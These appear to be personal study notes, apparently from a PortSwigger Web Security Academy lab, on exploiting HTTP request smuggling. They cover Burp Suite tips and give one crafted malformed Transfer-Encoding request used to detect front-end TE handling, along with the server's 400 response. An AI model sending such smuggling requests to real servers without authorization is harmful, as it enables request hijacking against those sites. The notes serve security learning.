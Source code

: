 ### Things to keep in mind to successfully exploit http request smuggling attacks.
```
1. Make sure to use HTTP/1.1 before trying to exploit because HTTP/2 doesn't support that.
In the inspector tab in burp , change to HTTP/1.1 from request attributes

2. If you are trying to using CL.TE , make sure you include connection: keep-alive header,
cause the backend server will only include that smuggled part in next request over same connection and
 using connection: keep-alive header will keep connection over same network.
```
### Identify if the frontend is using TE
send the request with  invalid transfer encoding request and see if it respond with bad request. If the response is invalid or bad request then the frontend is rejecting the invalid TE request. So, it confirms TE in frontend
```
POST / HTTP/1.1
Host: 0a9800ec040696b6826d248900930006.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

3
abc
x

```
response comes back as
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
Connection: close
Content-Length: 27

{"error":"Invalid request"}
```
